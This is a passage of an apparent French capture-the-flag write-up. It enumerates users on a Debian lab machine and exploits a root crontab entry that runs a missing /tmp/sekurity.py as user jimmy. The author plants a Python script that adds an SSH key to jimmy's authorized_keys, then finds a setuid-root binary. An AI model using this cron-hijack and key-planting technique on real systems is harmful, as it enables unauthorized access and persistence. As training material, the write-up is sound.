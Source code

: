 Le script en question est */var/tmp/login.py* et il est appelé à la fin du *.bashrc* (il aurait été possible de le bypasser dans tous les cas).  

On retrouve les deux autres utilisateurs sur le système :  

```plain
uid=1002(jimmy) gid=1002(jimmy) groupes=1002(jimmy)
uid=1000(hadi) gid=1000(hadi) groupes=1000(hadi),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

Jimmy tourne en rond
--------------------

Via les process on voit que cron et atd tournent sur le système, ainsi qu'un Exim. Notre utilisateur *martin* ne dispose d'aucune entrée cron ni atq, ni email sur le système. A noter aussi que sudo n'est pas présent.  

L'utilisateur *jimmy* a lui une spool de mails :  

```plain
-rw-rw---- 1 jimmy mail 18827 mars   3 11:15 /var/mail/jimmy
```

Mais le plus intéressant c'est son entrée dans */etc/crontab* :  

```plain
*/5   * * * *   jimmy   python /tmp/sekurity.py
```

Le fichier n'existant pas on peut facilement exécuter des commandes pour s'ouvrir un accès :  

```python
import os
os.system("mkdir -p /home/jimmy/.ssh/")
os.system("echo ssh-rsa ma_cle_prive_ssh >> /home/jimmy/.ssh/authorized_keys")
os.system("chmod 600 /home/jimmy/.ssh/authorized_keys")
```

Fake news
---------

Une fois connecté en tant que *jimmy* on découvre un binaire setuid root dans le dossier personnel :  

```plain
jimmy@debian:~$ ls -l networker
-rwsrwxrwx 1 root root 7496 juin   9  2017 networker
jimmy@debian:~$ ./networker
*** Networker 2.0 ***
eth0      Link encap:Ethernet  HWaddr 08:00:27:84:43:c4
          inet adr:192.168.2.3  Bcast:192.168.2.255  Masque:255.255.255.0
          adr inet6: fe80::a00:27ff:fe84:43c4/64 Scope:Lien
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1590609 errors:4947 dropped:0 overruns:0 frame:0
          TX packets:1591448 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 lg file transmission:1000
          RX bytes:268590018 (256.1 MiB)  TX bytes:522000199 (497.8 MiB)
          Interruption:9 Adresse de base:0xd020

lo        Link encap:Boucle locale
          inet adr:127.0.0.1  Masque:255.0.0.0
          adr inet6: ::1/128 Scope:Hôte
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:27 errors:0 dropped:0 overruns:0 frame:0
          TX packets:27 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 lg file transmission:0
          RX bytes:5634 (5.5 KiB)  TX bytes:5634 (5.5 KiB)

PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.028 ms
```